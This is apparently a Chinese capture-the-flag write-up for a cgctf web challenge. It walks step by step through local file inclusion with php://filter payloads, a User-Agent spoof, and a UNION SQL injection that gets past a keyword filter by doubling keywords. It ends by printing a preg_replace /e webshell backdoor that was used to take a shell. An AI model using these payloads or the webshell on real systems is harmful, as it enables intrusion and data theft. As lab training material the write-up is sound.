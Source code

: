打开网页，看到一个客户留言系统，仔细审查页面

## 1.看到留言 版，尝试xss,点击预览之后，页面提示，xss只是为了娱乐，换条思路



## 2.仔细阅读页面，发现一句类似提示的东西

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/AEF28CB38E894752B79273C14001664Cclipboard.png)

可能需要我们拿到shell，并且登陆到后台就知道了



## 3.查看网页源码，发现一个链接

view-source:http://cms.nuptzj.cn/about.php?file=sm.txt

打开看到sm.txt的内容，内容暴露了admin表结构，后面可能需要sql注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/785E941FD86C443D97D519B7204FCD6Aclipboard.png)

还暴露了，后台文件：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/A06285B0E17243B7A2B15881C0871C9Eclipboard.png)



## 4.?file=sm.txt可能存在文件包含

payload:http://cms.nuptzj.cn/about.php?file=index.php 发现页面显示了index.php源码

但是结构比较乱，可以尝试伪协议：

payload:http://cms.nuptzj.cn/about.php?file=php://filter/read=convert.base64-encode/resource=index.php

成功读出网页源码。

尝试读其他后台文件源码：

在尝试读取config.php文件时，页面提示，file参数不能为空，可能存在限制。



最后读出，index.php,passencode.php,say.php,文件内容，但是没有啥大发现。



后面发现about.php文件还没有查看，

payload:http://cms.nuptzj.cn/about.php?file=php://filter/read=convert.base64-encode/resource=about.php

读出about.php的源码，

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/45DAA21C179248EAB549918C68C565B6clipboard.png)

发现对config.php和loginxlcteam做了限制，loginxlcteam文件提示，敏感目录，禁止查看！但是...也许可以访问。



## 5.尝试访问：

http://cms.nuptzj.cn/loginxlcteam/

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/73831B36C78347DCB265860667CD6497clipboard.png)

看到后台页面，但是需要登陆，结合前面的表结构，可能需要注入，但是多次尝试也没有注入成功。



在这里卡了好一会儿，最后看了一下wp，发现index页面的搜索框还没有查看.......

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/3E8ED940966A429B9FC816057A061F26clipboard.png)



## 6.读出so.php文件源码

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/354AE68141534AADA90A69A2C2A5F04Fclipboard.png)

文件还限制了，必须使用Xlcteam Browser浏览器，此时只需将bp的http头改为：

User-Agent: Xlcteam Browser即可

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/252CB267DB9948C7890840CC18E5C922clipboard.png)

$id可能存在注入，但是经过了antinject.php的过滤，



## 7.所以查看antinject.php的源码，

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/0D63B0695A3C4A90B2342B6F7D5EB6F7clipboard.png)

发现该文件将关键字替换为了空。此处可以采用重写绕过，比如：seselectlect,空格可以使用/**/绕过



## 8.此时尝试sql注入

### 8.1采用union注入

### 8.2爆字段

payload:soid=1/**/uNunionion/**/seselectlect/**/null,null,null,null

此时页面和soid=1/**/uNunionion/**/seselectlect/**/null,null,null页面不一样，说明该查询返回四个字段

### 8.3查内容

此时已经知道了表结构，直接查询内容就可以了

payload:soid=1/**/uNunionion/**/seselectlect/**/null,(seselectlect/**/userpapassss/**/frfromom/**/admadminin),null,null



此时需要将soid=-100查询一个不存在的字段，使其报错，无法显示，才会显示union查询的内容。

返回：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/0DAFD078F87D41E98E516C0B80B9F82Aclipboard.png)

返回的字符，看起来向ascii码。



## 9.解ascii

```javascript
<?php
$str=array(102,117,99,107,114,117,110,116,117);
for($i=0;$i<count($str);$i++){
    echo chr($str[$i]);//fuckruntu
}
```



## 10.登陆后台

username=admin&userpass=fuckruntu

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/44BC205FDB4F4ADC8D3965C05D447AB4clipboard.png)



## 11.提示根目录存在xlcteam.php文件

刚才呢任意文件读取漏洞，刚好可以读取，根目录文件内容。

xlcteam.php

```javascript
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>

//payload:www=preg_replace
//将wtf接收的内容放到preg_replace里面执行
//此时wtf开启了preg_repalce的/e模式
```



## 12.蚁剑：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/cgctf/web/images/33D53ADE699345D6B47EAF54CD822348clipboard.png)







